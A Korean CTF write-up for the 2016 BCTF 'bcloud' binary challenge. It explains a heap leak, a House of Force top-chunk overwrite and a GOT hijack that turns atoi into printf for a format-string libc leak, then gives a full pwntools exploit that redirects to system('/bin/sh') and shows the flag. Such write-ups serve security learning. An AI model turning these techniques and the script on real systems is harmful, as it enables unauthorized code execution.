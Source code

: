 ```yaml
---
layout: post
title: "[2016 bctf] bcloud 풀이"
date: 2018-09-27 04:44
categories: "[Pwn]CTF"
tags: rotles98
---
```


>### Category: Exploit Points: 200
### [bcloud](https://github.com/ctfs/write-ups-2016/raw/master/bctf-2016/exploit/bcloud-200/bcloud.9a3bd1d30276b501a51ac8931b3e43c4)
### [libc](https://github.com/ctfs/write-ups-2016/raw/master/bctf-2016/exploit/bcloud-200/libc-2.19.so.i386.5dff22f4460da9c696dd20324a775a8a)

배고프당

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![checksec](/img/2016_bctf/bcloud/01.png)
{: refdef}

처음에 `name`을 입력받는데 코드는 아래처럼 생겼어요.

{: refdef: style="text-align: center;"}
![what_your_name](/img/2016_bctf/bcloud/02.png)
{: refdef}

**bof**가 없어서 취약점이 없어 보이는데 이 부분을 사용해서 `heap_leak`을 할 수 있어요.

`buf_name`에 딱 맞게 넣어주면 그 뒤에 `char *chunk_name`이랑 문자열이 연결되는데 `strncpy`가 아니라 `strcpy`로 데이터를 복사해서 `chunk_name`안에는 `name`으로 입력한 `0x40` 말고도 자기 자신의 주소도 같이 들어가요.

그걸 `print_HI`함수에서 출력해서 `heap_leak`을 할 수 있어요.

{: refdef: style="text-align: center;"}
![heap_leak](/img/2016_bctf/bcloud/03.png)
{: refdef}

요로코롬

{: refdef: style="text-align: center;"}
![what_your_www](/img/2016_bctf/bcloud/04.png)
{: refdef}

그 다음엔 `org`, `host`를 물어보는데 이 것도 위 방법처럼 스택을 잘 연결하면 `TOP_chunk`를 덮을 수 있어요.

`func_new`

1. 길이 입력

2. `malloc(길이 + 4)`하고 **bss**의 `list_chunk[id]`에 저장

3. 길이만큼 `read`

4. **bss**의 `list_flag[id] = 0`<br /><br />

`func_edit`

1. `id` 입력

2. 해당 `id`가 존재하면 `list_flag[id] = 0`

3. `list_len[id]`만큼 `read`

이 두 함수밖에 안써요.

- - -
# 0x01. 공격 방법

`heap_leak`은 했으니까 `libc_leak`을 해야하는데 이 방법이 특이해요.

`read`하고 `atoi`를 사용해서 메뉴나 길이를 입력하는데 `atoi_got`를 `printf_plt`로 바꿔서 `atoi`대신 `printf`를 실행시켜요.

그다음 함수를 선택할 때 `%p %p %p` 같이 입력해서 **fsb**를 억지로 만들어요.

그리고 `atoi` 대신 `printf`라서 `3. Edit note`를 하고싶으면 `333` 이런식으로 문자 세 개를 입력해야해요.

- - -
# 0x02. 익스플로잇

귀찮으니까 바로 익스코드

```python
from pwn import *
#context.log_level = "debug"

HOST = "192.168.0.19"
#HOST = ""
PORT = 4444
#PORT =

s = remote(HOST, PORT)
pause()

elf = ELF("./bcloud")
libc = ELF("./libc-2.23.so")

printf_plt = elf.plt["printf"]
atoi_got = elf.got["atoi"]

leak_off = 0x49696
system_off = libc.symbols["system"]

# heap_leak
s.recvuntil("Input your name:\n")
s.send("A"*0x40)
s.recvuntil("A"*0x40)
heap_leak = u32(s.recv(4))

heap_base = heap_leak - 0x8
TOP_chunk = heap_base + 0xdc

print
log.info("heap_base : " + hex(heap_base))
log.info("TOP_chunk : " + hex(TOP_chunk))
print

# overwrite_TOP_chunk
s.recvuntil("Org:\n")
s.send("A"*0x40)
s.recvuntil("Host:\n")
s.sendline("\xff\xff\xff\xff")

chunk_size = atoi_got - 0x8 - TOP_chunk - 0xc

s.recvuntil("option--->>\n")
s.sendline("1")
s.recvuntil("Input the length of the note content:\n")
s.sendline(str(chunk_size))
s.recvuntil("Input the content:\n")
s.sendline("")

s.recvuntil("option--->>\n")
s.sendline("1")
s.recvuntil("Input the length of the note content:\n")
s.sendline("8")
s.recvuntil("Input the content:\n")
payload = "AAAA"
payload += p32(printf_plt)
s.send(payload)

# libc_leak
s.recvuntil("option--->>\n")
s.sendline("%p %p %p %p %p")
s.recvuntil(" 0x")
s.recvuntil(" 0x")
libc_leak = int(s.recvuntil(" "), 16)

libc_base = libc_leak - leak_off
libc_system = libc_base + system_off

log.info("libc_base : " + hex(libc_base))
log.info("libc_system : " + hex(libc_system))
print

s.recvuntil("option--->>\n")
s.sendline("333")
s.recvuntil("Input the id:\n")
s.sendline("1")
payload = "AAAA"
payload += p32(libc_system)
s.send(payload)

s.recvuntil("option--->>\n")
s.sendline("/bin/sh")

s.interactive()
```

### BCTF{3asy_h0uSe_oooof_f0rce}
